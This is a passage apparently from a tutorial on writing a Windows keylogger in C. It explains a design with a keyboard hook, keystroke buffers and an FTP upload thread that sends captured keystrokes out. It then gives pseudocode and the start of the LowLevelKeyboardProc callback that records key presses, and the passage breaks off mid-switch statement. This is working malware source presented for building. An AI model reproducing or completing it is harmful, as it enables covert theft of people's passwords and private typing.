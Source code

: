 
We require a mutex to prevent duplicate instances being run at the same time. Once we’ve done that, we can initialize the two heaps for our two buffers and the multithreading objects. The `lpTempBuf` buffer obviously starts with no data so we create the `hTempBufNoData` initial state as `TRUE` and the `hTempBufHasData` with `FALSE`. We’ll then create the thread for the FTP uploading routine and then set a hook on keyboard messages. Once we’ve set up everything we require, we place the main function in a message loop to retrieve keystrokes. To capture the keystrokes, we need to set up our `LowLevelKeyboardProc` function accordingly.

### `LowLevelKeyboardProc`

The following is the pseudocode of the `LowLevelKeyboardProc` function.

1. Check if message is a keyboard message
2. Check if key is either pressed or held
3. Parse virtual key code
4. Append the keystroke to the buffer
5. Wait until the upload buffer is empty (already uploaded) if the keystroke buffer is full
6. Else if upload buffer is not ready, skip and end the function
7. If upload buffer is ready, copy keystroke buffer to the upload buffer
8. Signal FTP routine that there is data to upload
9. Zero the keystroke buffer
10. End the function

This function is declared as the `CALLBACK` function to process the keystrokes provided by the hook. To record the keystrokes, we need to do some parsing of virtual key codes and some formatting of special keys.

```c
// callback function when key is pressed
LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    // wParam and lParam have info about keyboard message
    if (nCode == HC_ACTION) {
        KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
        // if key is pressed or held
        if (wParam == WM_KEYDOWN) {
            // get string length of log buffer
            DWORD dwLogBufLen = strlen(lpLogBuf);

            // copy vkCode into log buffer
            CHAR key[2];
            DWORD vkCode = kbd->vkCode;
            // key is 0 - 9
            if (vkCode >= 0x30 && vkCode <= 0x39) {
                // shift key
                if (GetAsyncKeyState(VK_SHIFT)) {
                    switch (vkCode) {
                        case 0x30:
                            Log(")");
                            break;
                        case 0x31:
                            Log("!");
                            break;
                        case 0x32:
                            Log("@");
                            break;
                        case 0x33:
                            Log("#");
                            break;
                        case 0x34:
                            Log("$");
                            break;
                        case 0x35:
                            Log("%");
                            break;
                        case 0x36:
```